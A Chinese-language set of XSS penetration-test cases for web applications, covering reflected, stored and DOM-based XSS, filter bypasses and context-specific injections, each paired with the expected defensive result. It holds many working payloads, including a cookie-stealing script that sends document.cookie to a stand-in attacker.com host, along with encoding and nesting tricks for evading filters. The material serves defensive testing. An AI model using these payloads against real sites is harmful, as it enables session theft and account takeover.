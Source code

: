 以下是为跨站脚本（XSS）渗透测试设计的测试用例，涵盖多种场景和攻击类型：

---

### **测试用例 1：基础反射型XSS检测**  
**测试步骤**  
[1] 在目标网页的搜索框/URL参数中输入基础XSS payload：`<script>alert('XSS')</script>`  
[2] 提交请求并观察页面响应。  
[3] 尝试其他常见payload：`<img src=x onerror=alert(1)>`  
[4] 测试所有用户可控输入点（GET/POST参数、HTTP头、表单字段）。  

**期望结果**  
[1] 页面**未弹出**警告框，且输入内容被正确转义或过滤。  
[2] 服务器返回错误响应或拦截恶意请求（如WAF触发）。  
[3] 查看页面源码，确认输入内容以**纯文本形式**显示（非可执行代码）。  
[4] 日志中记录非法输入尝试。  

---

### **测试用例 2：存储型XSS检测（持久化攻击）**  
**测试步骤**  
[1] 在用户可提交持久化数据的区域（评论、留言板）输入：`<svg onload=alert(document.cookie)>`  
[2] 提交内容并刷新页面，检查是否存储成功。  
[3] 切换其他用户账户访问含该内容的页面。  
[4] 尝试窃取Cookie的真实payload：  
```html
<script>fetch('https://attacker.com/steal?data='+btoa(document.cookie))</script>
```

**期望结果**  
[1] 提交内容被**过滤或拒绝**，或前端显示为转义文本（如`&lt;script&gt;`）。  
[2] 管理员后台对用户输入进行**内容审核**。  
[3] 其他用户访问时**无脚本执行**。  
[4] 服务器监测到外联请求并拦截。  

---

### **测试用例 3：DOM型XSS检测（客户端漏洞）**  
**测试步骤**  
[1] 构造恶意URL：`https://example.com/page#<img src=1 onerror=alert(1)>`  
[2] 通过前端交互触发DOM操作（如点击按钮解析URL片段）。  
[3] 使用浏览器开发者工具调试，检查是否执行`eval()`或`innerHTML`未过滤操作。  
[4] 测试基于DOM的输入源：`document.location`、`document.referrer`、`window.name`。  

**期望结果**  
[1] 页面DOM更新时**不解析**URL中的HTML标签。  
[2] 动态内容生成使用**安全的API**（如`textContent`替代`innerHTML`）。  
[3] 关键操作避免使用`eval()`或`Function()`。  

---

### **测试用例 4：绕过过滤机制**  
**测试步骤**  
[1] 尝试编码绕过：  
```html
%3Cscript%3Ealert(1)%3C/script%3E  <!-- URL编码 -->
<scr<script>ipt>alert(1)</script>   <!-- 嵌套混淆 -->
```
[2] 利用事件处理器：`<a href="javascript:alert(1)">Click</a>`  
[3] 测试SVG/HTML5新标签：`<details ontoggle=alert(1)>`  
[4] 使用非常规属性：`<input autofocus onfocus=alert(1)>`  

**期望结果**  
[1] 过滤系统识别**多级编码/混淆**并拦截。  
[2] `javascript:` 协议被禁用或转义。  
[3] WAF规则覆盖新型标签和事件。  
[4] 输入内容统一转换为小写后再过滤（防大小写绕过）。  

---

### **测试用例 5：上下文感知测试**  
**测试步骤**  
[1] 在JavaScript字符串中测试：`';alert(1);//`  
[2] 在HTML属性中测试：`" onmouseover="alert(1)`  
[3] 在CSS上下文中测试：`style="color:expression(alert(1))"`（IE遗留漏洞）  
[4] 在JSON响应中测试：注入`</script><script>alert(1)</script>`  

**期望结果**  
[1] 输出到JS上下文时使用`\uXXXX`转义特殊字符。  
[2] 输出到HTML属性时使用引号包裹并转义`"`和`'`。  
[3] 禁用旧版CSS表达式。  
[4] JSON响应设置`Content-Type: application/json`，避免被解析为HTML。  

---

### **补充验证点**  
- **CSP防护检查**：  
  响应头包含`Content-Security-Policy`，限制脚本源（如`default-src 'self'`）。  
- **HttpOnly Cookie**：  
  敏感Cookie标记`HttpOnly`，阻止通过`document.cookie`读取。  
- **浏览器XSS审计**：  
  响应头`X-XSS-Protection: 0`（禁用旧浏览器有漏洞的过滤器）。  

---

> **执行建议**：  
> 1. 使用工具（如Burp Suite Scanner、XSStrike）自动化检测。  
> 2. 对输入/输出点使用不同payload多次迭代测试。  
> 3. 测试前后端一致性：前端过滤后，后端需二次验证。  
> 4. 验证修复方案：修复后复测所有变种payload。